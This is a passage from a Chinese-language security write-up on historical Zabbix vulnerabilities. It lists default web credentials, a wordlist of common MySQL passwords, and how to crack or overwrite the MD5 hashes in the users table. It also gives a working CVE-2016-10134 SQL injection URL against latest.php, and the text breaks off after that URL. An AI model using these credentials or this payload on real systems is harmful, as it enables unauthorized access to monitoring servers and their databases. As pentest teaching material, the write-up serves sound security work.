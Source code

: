 ## [](#2-zabbix-%E5%8E%86%E5%8F%B2%E6%BC%8F%E6%B4%9E)2 Zabbix 历史漏洞

### [](#21-%E5%BC%B1%E5%8F%A3%E4%BB%A4)2.1 弱口令

#### [](#211-web-%E7%AB%AF)2.1.1 Web 端

Zabbix 安装后自带 Admin 管理员用户和 Guests 访客用户（低版本），可登陆 Zabbiax 后台。

常见弱口令组合：

-   `admin:zabbix`
-   `Admin:zabbix`
-   `guset:空口令`

#### [](#212-mysql-%E7%AB%AF)2.1.2 mysql 端

由于 root 用户默认情况下无法外连，运维通常会新建 MySQL 用户 `zabbix`，常见密码如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```fallback<br>123456<br>zabbix<br>zabbix123<br>zabbix1234<br>zabbix12345<br>zabbix123456<br>``` |

拿下 MySQL 数据库后，可解密 users 表的密码 md5 值，或者直接替换密码的 md5 为已知密码，即可登录 Zabbix Web。

### [](#22-cve-2016-10134---sql-%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E)2.2 CVE-2016-10134 - SQL 注入漏洞

> 该漏洞的具体分析可参考：[zabbix SQL 注入漏洞（CVE-2016-10134）](https://blog.iwonder.run/2020/12/20/zabbix-sql-zhu-ru-lou-dong-cve-2016-10134/)，原理是 insert 插入时未对用户输入的数据进行过滤，可以进行显错注入。

#### [](#221-%E5%B7%B2%E6%9C%89%E7%94%A8%E6%88%B7%E5%87%AD%E6%8D%AE)2.2.1 已有用户凭据

以 Guest 用户登录后，查看 Cookie 中的`zbx_sessionid`，复制后 `16` 位字符：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221020167.png-water_print](assets/1699408100-e6da71cb8913701766b1839529eee22d.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221020167.png-water_print")

将这 16 个字符作为 sid 的值，访问 `http://your-ip:8080/latest.php?output=ajax&sid=16位 ID&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：
